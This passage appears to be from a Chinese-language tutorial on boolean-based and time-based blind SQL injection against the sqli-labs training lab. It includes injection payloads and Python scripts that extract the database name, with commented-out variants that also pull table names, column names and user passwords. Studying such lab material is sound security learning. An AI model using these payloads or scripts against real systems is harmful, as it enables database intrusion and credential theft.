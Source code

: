 {% endcodeblock %}
### 7.布尔盲注
普通注入不能直接回显错误信息。
和时间盲注相同的是，每次只判断一个字符。
?id=1' and substr(database(),1,1)=1 #
示例:
Sqli-labs Less-6
该关卡只有两种返回结果，当查询存在时返回“You are in...”，否则返回为空。
?id=1' and 1=1 --+回显You are in...........
?id=1' and 1=2 --+不回显
根据这种情况，可以由substr()函数每次判断一个字符，python脚本进行布尔盲注,具体如下:
{% codeblock %}
 import requests
 s = requests.Session()
 url = 'http://localhost:8080/sqli-labs/Less-6/'
 payloads = 'AaBbCcDdEeFfGgHhIiJjKkLlMmNnOoPpQqRrSsTtUuVvWwXxYyZz[{\|]}^~_,'
 data = ''
 
 for i in range(50):
     for j in payloads:
         payload = f"?id=1\" and substr(binary database(),{i},1)='{j}'%23"
         #payload = f"?id=1\" and substr((select binary group_concat(table_name) from information_schema.tables where table_schema=database()) ,{i},1)='{j}'%23"
         #payload = f"?id=1" and substr((select binary group_concat(column_name) from information_schema.columns where table_name='users') ,{i},1)='{j}'%23"
         #payload = f"?id=1" and substr((select binary group_concat(password,' ') from security.users) ,{i},1)='{j}'%23"
         if "You are in..........." in s.get(url+payload).text:
             data += j
             break
     print(data)
{% endcodeblock %}

### 8.时间盲注
?id=1' union select(if(substr(database(),1,1))>1,sleep(3),1)         #此外还有bench()函数
示例：
Sqli-labs Less-9
此处可以发现无论查询对错都只回显You are in...........
测试?id=1' and sleep(3)%23 页面会延时3秒再回显，判断为时间盲注.
编写脚本进行时间盲注，如下：
{% codeblock %}
import requests
url = 'http://localhost:8080/sqli-labs/Less-9/'
payloads = 'AaBbCcDdEeFfGgHhIiJjKkLlMmNnOoPpQqRrSsTtUuVvWwXxYyZz[{\|]}^~_,'
data = ''
for i in range(50):
    for j in payloads:
        payload = f"?id=1' and if((substr(binary database(),{i},1)='{j}'),sleep(1),1)%23"
        #正确的时候等待1秒钟，不正确的时候直接返回
        # payload = f"?id=1' and if((substr((select binary group_concat(table_name) from information_schema.tables where table_schema=database()) ,{i},1)='{j}'),sleep(1),1)%23"
        #payload = f"?id=1' and if((substr((select binary group_concat(column_name) from information_schema.columns where table_name='users') ,{i},1)='{j}'),sleep(1),1)%23" 
        try:
            r = requests.get(url+payload, timeout=1)
        except Exception:
            data += j
            print(data)
            break
            {% endcodeblock %}
